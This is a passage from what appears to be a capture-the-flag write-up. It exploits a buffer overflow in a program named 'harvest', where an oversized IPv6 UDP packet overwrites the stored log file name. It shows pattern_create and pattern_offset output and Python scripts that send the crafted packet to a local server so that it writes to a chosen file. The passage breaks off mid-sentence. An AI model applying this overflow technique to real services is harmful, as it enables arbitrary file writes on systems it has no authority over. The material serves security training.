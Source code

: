 When `harvest` reads a large IPv6 packet, it overflows the payload buffer and writes into the memory holding the log file name. I’d like to know the offset to that memory, so I can target a specific file. I know it’s at least 65,360, as that’s the size of the overflowed buffer. I’ll generate a pattern to check after that:

```

oxdf@hacky$ pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

```

I’ll update the script with that:

```

import socket

SRV_ADDR = ("::1", 4444) # port doesn't matter
sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
data = b"A" * (65360)
data += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
sock.sendto(data, SRV_ADDR)

```

When I start the server and client again, and then run this, the server crashes again, creating this file from which I can measure the offset:

```

oxdf@hacky$ ls Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A 
Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
oxdf@hacky$ pattern_offset -q Aa4A
[*] Exact match at offset 12

```

I’ll update the script to try to write to `overflow.log`:

```

import socket

SRV_ADDR = ("::1", 4444) # port doesn't matter
sock = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
data = b"A" * (65360 + 12)
data += b"overflow.log"
sock.sendto(data, SRV_ADDR)

```

This time, the server doesn’t crash:
